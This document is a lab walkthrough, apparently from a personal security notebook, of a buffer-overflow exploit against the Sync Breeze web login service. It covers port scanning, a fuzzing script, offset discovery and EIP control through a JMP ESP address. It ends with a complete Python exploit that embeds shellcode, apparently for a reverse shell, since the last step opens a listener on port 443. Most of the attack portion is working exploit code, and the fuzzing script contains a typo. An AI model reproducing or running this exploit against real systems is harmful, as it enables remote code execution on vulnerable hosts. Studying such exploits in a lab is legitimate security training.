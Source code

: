 # sync breeze

![image.png](<../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png>)

*   **Scan machine**

    we start to scan port number by using `unicornscan` tool which is faster than nmap. you can install it by this command `sudo apt install unicornscan`

    ![Screenshot 2025-03-13 231202.png](<../../../../.gitbook/assets/Screenshot_2025 03 13_231202.png>)

    ```bash
    sudo unicornscan -ImT 10.0.2.4:1-2000 # 1-2000 scan ports from 1 to 2000
    ```

    we discovered this ports is open let’s know what’s the service is running for each port

<figure><img src="../../../../.gitbook/assets/Screenshot_2025 03 13_231202.png" alt=""><figcaption></figcaption></figure>

after search we find this is old version which is vulnerable to BOF so lets download this service and try to exploit it in our services

*   **Fuzzing**

    open the browser and Wireshark tool then show the request was sent

    ![Screenshot 2025-03-13 231447.png](<../../../../.gitbook/assets/Screenshot_2025 03 13_231447.png>)

    try to create python code to smash the vulnerable machine

    ```bash
    #!/bin/python3
    import socket
    import sys
    import time
    target_ip = "10.0.2.4"
    target_port = 80  
    l = 100
    step = 100 
    while True:
        try:
            payload = "username=" + "A" * l + "&password=1234"
            request=""
            request+="POST /login HTTP/1.1\r\n"
            request+="Host: 10.0.2.4\r\n"
            request+="User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
            request+="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
            request+="Accept-Language: en-US,en;q=0.5\r\n"
            request+="Accept-Encoding: gzip, deflate\r\n"
            request+="Content-Type: application/x-www-form-urlencoded\r\n"
            request+=f"Content-Length: {len(payload)}\r\n"
            request+="Origin: http://10.0.2.4"
            request+="Connection: keep-alive\r\n"
            request+="Referer: http://10.0.2.4/login\r\n"
            request+="Upgrade-Insecure-Requests: 1\r\n"
            request+="Priority: u=0, i\r\n"
            request+="\r\n"
            request+=payloadS

            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target_ip, 80))
            print(f"Sending {l} bytes...")
            s.send(request.encode())
            response = s.recv(1024) 
            print(f"Response: {response.decode(errors='ignore')}")
            s.close()
            print(f"Trying payload size: {l} bytes...")
            l += step
            time.sleep(1)
        except Exception as e:
            print(f"Fuzzing crashed at {l} bytes")
            sys.exit()
    ```

    run this script and we will notice this machine is crashed after 800 char sent

    ![1.png](../../../../.gitbook/assets/1.png)
*   **locate offset**

    create offset by using Metasploit

<figure><img src="../../../../.gitbook/assets/image 2 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
./pattern_create.rb -l 800
```

then send it by python script we will notice this machine is crashed

<figure><img src="../../../../.gitbook/assets/image 3 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and the offset is 780

let’s know which is four is overwrite in EIP

![3.png](../../../../.gitbook/assets/3.png)

*   **Hijack execution**

    use `nasm shell` tool to transfer **JMP ESP** to op code

<figure><img src="../../../../.gitbook/assets/image 4 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

use mona to search on this code we found this add `10090C83`

after transfer this address to **Little Endian**

<figure><img src="../../../../.gitbook/assets/image 5 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```python
#!/bin/python3
import socket
import sys
import time

target_ip = "10.0.2.4"
target_port = 80   

add = b"A" * 780 + b"\x83\x0C\x09\x10" + b"C" * 16
payload = b"username=" + add + b"&password=1234"

request = b"POST /login HTTP/1.1\r\n"
request += b"Host: 10.0.2.4\r\n"
request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
request += b"Accept-Language: en-US,en;q=0.5\r\n"
request += b"Accept-Encoding: gzip, deflate\r\n"
request += b"Content-Type: application/x-www-form-urlencoded\r\n"
request += b"Content-Length: " + str(len(payload)).encode() + b"\r\n"
request += b"Origin: http://10.0.2.4\r\n"
request += b"Connection: close\r\n"
request += b"Referer: http://10.0.2.4/login\r\n"
request += b"Upgrade-Insecure-Requests: 1\r\n"
request += b"Priority: u=0, i\r\n"
request += b"\r\n"
request += payload  

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.sendall(request)  
response = s.recv(4096)
print(f"Response: {response.decode(errors='ignore')}")
s.close()
```

*   **craft shellcode**

    discover bad characters then generate a shell code&#x20;

<figure><img src="../../../../.gitbook/assets/image 6 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<pre class="language-python"><code class="lang-python"><strong>#!/bin/python3
</strong>import socket
import sys
import time
target_ip = "10.0.2.4"
target_port = 80   

# ESP add 10090C83

buf =  b""
buf += b"\xd9\xc4\xd9\x74\x24\xf4\x5d\xba\xc3\xd9\xbf\x94"
buf += b"\x29\xc9\xb1\x52\x31\x55\x17\x83\xed\xfc\x03\x96"
buf += b"\xca\x5d\x61\xe4\x05\x23\x8a\x14\xd6\x44\x02\xf1"
buf += b"\xe7\x44\x70\x72\x57\x75\xf2\xd6\x54\xfe\x56\xc2"
buf += b"\xef\x72\x7f\xe5\x58\x38\x59\xc8\x59\x11\x99\x4b"
buf += b"\xda\x68\xce\xab\xe3\xa2\x03\xaa\x24\xde\xee\xfe"
buf += b"\xfd\x94\x5d\xee\x8a\xe1\x5d\x85\xc1\xe4\xe5\x7a"
buf += b"\x91\x07\xc7\x2d\xa9\x51\xc7\xcc\x7e\xea\x4e\xd6"
buf += b"\x63\xd7\x19\x6d\x57\xa3\x9b\xa7\xa9\x4c\x37\x86"
buf += b"\x05\xbf\x49\xcf\xa2\x20\x3c\x39\xd1\xdd\x47\xfe"
buf += b"\xab\x39\xcd\xe4\x0c\xc9\x75\xc0\xad\x1e\xe3\x83"
buf += b"\xa2\xeb\x67\xcb\xa6\xea\xa4\x60\xd2\x67\x4b\xa6"
buf += b"\x52\x33\x68\x62\x3e\xe7\x11\x33\x9a\x46\x2d\x23"
buf += b"\x45\x36\x8b\x28\x68\x23\xa6\x73\xe5\x80\x8b\x8b"
buf += b"\xf5\x8e\x9c\xf8\xc7\x11\x37\x96\x6b\xd9\x91\x61"
buf += b"\x8b\xf0\x66\xfd\x72\xfb\x96\xd4\xb0\xaf\xc6\x4e"
buf += b"\x10\xd0\x8c\x8e\x9d\x05\x02\xde\x31\xf6\xe3\x8e"
buf += b"\xf1\xa6\x8b\xc4\xfd\x99\xac\xe7\xd7\xb1\x47\x12"
buf += b"\xb0\xb7\x97\x1e\x45\xa0\x95\x1e\x44\x8b\x13\xf8"
buf += b"\x2c\xfb\x75\x53\xd9\x62\xdc\x2f\x78\x6a\xca\x4a"
buf += b"\xba\xe0\xf9\xab\x75\x01\x77\xbf\xe2\xe1\xc2\x9d"
buf += b"\xa5\xfe\xf8\x89\x2a\x6c\x67\x49\x24\x8d\x30\x1e"
buf += b"\x61\x63\x49\xca\x9f\xda\xe3\xe8\x5d\xba\xcc\xa8"
buf += b"\xb9\x7f\xd2\x31\x4f\x3b\xf0\x21\x89\xc4\xbc\x15"
buf += b"\x45\x93\x6a\xc3\x23\x4d\xdd\xbd\xfd\x22\xb7\x29"
buf += b"\x7b\x09\x08\x2f\x84\x44\xfe\xcf\x35\x31\x47\xf0"
buf += b"\xfa\xd5\x4f\x89\xe6\x45\xaf\x40\xa3\x76\xfa\xc8"
buf += b"\x82\x1e\xa3\x99\x96\x42\x54\x74\xd4\x7a\xd7\x7c"
buf += b"\xa5\x78\xc7\xf5\xa0\xc5\x4f\xe6\xd8\x56\x3a\x08"
buf += b"\x4e\x56\x6f"

add = b"A" * 780 + b"\x83\x0C\x09\x10" + b"\x90" * 32+buf
payload = b"username=" + add + b"&#x26;password=1234"

request = b"POST /login HTTP/1.1\r\n"
request += b"Host: 10.0.2.4\r\n"
request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
request += b"Accept-Language: en-US,en;q=0.5\r\n"
request += b"Accept-Encoding: gzip, deflate\r\n"
request += b"Content-Type: application/x-www-form-urlencoded\r\n"
request += b"Content-Length: " + str(len(payload)).encode() + b"\r\n"
request += b"Origin: http://10.0.2.4\r\n"
request += b"Connection: close\r\n"
request += b"Referer: http://10.0.2.4/login\r\n"
request += b"Upgrade-Insecure-Requests: 1\r\n"
request += b"Priority: u=0, i\r\n"
request += b"\r\n"
request += payload  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.sendall(request)  
response = s.recv(4096)  
print(f"Response: {response.decode(errors='ignore')}")
s.close()
</code></pre>

*   **execute shellcode**

    open listener on port 443

<figure><img src="../../../../.gitbook/assets/image 7 (1).png" alt=""><figcaption></figcaption></figure>

